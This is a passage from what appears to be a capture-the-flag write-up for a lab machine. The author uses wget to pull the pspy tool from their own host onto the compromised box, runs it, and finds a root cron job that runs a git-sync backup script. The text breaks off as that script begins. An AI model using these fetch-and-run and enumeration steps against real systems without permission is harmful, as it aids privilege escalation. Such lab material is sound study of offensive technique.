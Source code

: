 
#### pspy

There’s not much of interest in the process list, but I’ll upload
[pspy](https://github.com/DominicBreuker/pspy) to look for any processes that
run periodically. I’ll download the latest release, and serve it with Python
webserver. From OpenSource, I’ll fetch the file into `/tmp`:

    
    
    dev01@opensource:/tmp$ wget 10.10.14.6/pspy64
    --2022-09-30 13:16:54--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64                                 100%[===================================>]   2.94M  1.68MB/s    in 1.7s    
    
    2022-09-30 13:16:56 (1.68 MB/s) - ‘pspy64’ saved [3078592/3078592]
    

I’ll make it executable and run it:

    
    
    dev01@opensource:/tmp$ ./pspy64
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    ...[snip]...
    

Every minute, there’s a cron that runs as root that starts with
`/usr/local/bin/git-sync`:

    
    
    2022/09/30 13:19:01 CMD: UID=0    PID=18961  | /bin/sh -c /usr/local/bin/git-sync
                             2022/09/30 13:19:01 CMD: UID=0    PID=18960  | /bin/sh -c /usr/local/bin/git-sync
    2022/09/30 13:19:01 CMD: UID=0    PID=18959  | /usr/sbin/CRON -f
    2022/09/30 13:19:01 CMD: UID=0    PID=18964  | git add .
    2022/09/30 13:19:01 CMD: UID=0    PID=18965  | git commit -m Backup for 2022-09-30 
    2022/09/30 13:19:01 CMD: UID=0    PID=18966  | git push origin main 
    2022/09/30 13:19:01 CMD: UID=0    PID=18967  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
    2022/09/30 13:19:01 CMD: UID=0    PID=18968  | /sbin/modprobe -q -- net-pf-10 
    

On even minutes, there’s a bunch of other tasks, but they are all related to
cleanup in the containers.

#### git-sync

`/usr/local/bin/git-sync` is a short Bash script responsible for the backup of
dev01’s home directory:

    
    
    #!/bin/bash
    
    cd /home/dev01/
    